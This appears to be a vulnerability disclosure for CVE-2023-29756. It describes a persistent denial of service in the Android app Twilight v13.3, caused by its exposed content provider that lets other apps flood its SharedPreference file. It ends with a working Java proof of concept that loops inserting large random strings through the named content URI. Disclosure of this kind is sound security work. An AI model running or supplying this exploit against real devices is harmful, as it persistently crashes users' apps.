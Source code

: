 # Denial of Service exists in Twilight（CVE-2023-29756）

Vendor: Twilight(http://twilight.urbandroid.org/)

Affected product: Twilight(com.urbandroid.lux)

Version: 13.3

Download link： https://play.google.com/store/apps/details?id=com.urbandroid.lux

Description of the vulnerability for use in the CVE：An issue found in Twilight v.13.3 allows unauthorized apps to cause a persistent denial of service by manipulating the SharedPreference files.

Additional information: The Twilight application allows unauthorized applications to modify the data in its SharedPreference file through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes, which eventually leads to a persistent denial of service as the data is stored persistently in the SharedPreference file.

poc:

```java
ContentResolver contentResolver = getApplicationContext().getContentResolver();
Uri parse = Uri.parse("content://com.urbandroid.sleep.multiprocesspreferences.PREFFERENCE_AUTHORITY/a/a");
while(true){
    ContentValues contentValues = new ContentValues();
    String string = getRandomString(10000);
    contentValues.put(string,string);
    contentResolver.insert(parse,contentValues);
}
```